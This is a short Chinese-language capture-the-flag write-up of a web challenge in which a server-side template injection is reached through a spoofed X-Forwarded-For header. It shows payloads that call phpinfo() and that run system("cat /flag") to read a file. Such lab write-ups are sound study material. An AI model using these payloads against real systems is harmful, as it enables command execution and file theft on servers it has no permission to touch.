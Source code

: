 # 知识点：

# 1. 模板注入（ssti)

# 2. xff头模板注入



# 1. 进入首页，发现存在flag，页面和hin.php页面

访问hint.php页面，网页源码注释提示：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/3A641C75450D46159FA626751380602Cclipboard.png)



而flag.php页面会显示，自己ip



# 2. 尝试xff头伪造ip

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4F2DDF1BEB104A6896CA783D80672A64clipboard.png)

发现可以伪造。

## 此时可以考虑：

## 1.sql注入

## 2.模板注入

## 3.xss注入



结合该题没有什么需要管理员登陆的地方，应该不是xss注入。而回显ip也感觉没和数据库交互。所以尝试模板注入



# 3. payload:

```javascript
X-Forwarded-For: {phpinfo()}
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/CA3245ACDFB34B3284EFD73897CD5D17clipboard.png)

发现注入成功。



# 4. 读取flag

```javascript
X-Forwarded-For: {system("cat /flag")}
```


